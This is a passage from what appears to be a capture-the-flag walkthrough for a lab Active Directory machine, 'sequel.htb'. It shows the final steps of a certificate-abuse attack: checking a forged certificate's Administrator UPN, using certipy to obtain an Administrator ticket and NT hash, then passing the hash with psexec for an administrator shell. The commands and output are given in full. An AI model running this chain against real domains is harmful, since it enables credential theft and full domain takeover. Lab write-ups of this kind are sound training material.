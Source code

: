 Indeed the SANs have the administrator as UPN
```bash
openssl pkcs12 -in administrator_10.pfx -nokeys -passin pass:'' |\
   openssl x509 -noout -ext subjectAltName
```
```
X509v3 Subject Alternative Name:
    DNS:10.10.11.51, othername: UPN:Administrator@sequel.htb
```

### Use the x509 identity to get Admin TGT

And we can now use certipy auth with that key and cert, and certipy does some more kerberos magic to eventually get us a TGT as Administrator 
```bash
certipy auth \
  -pfx administrator_10.pfx \
  -username Administrator \
  -domain sequel.htb
```
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

### Use the Administrator's TGT with psexec 

And finally we can pass the hash with psexec to get a shell as Administrator
```bash
psexec.py -hashes :7a8d4e04986afa8ed4060f75e5a0b3ff Administrator@sequel.htb -codec gbk
```
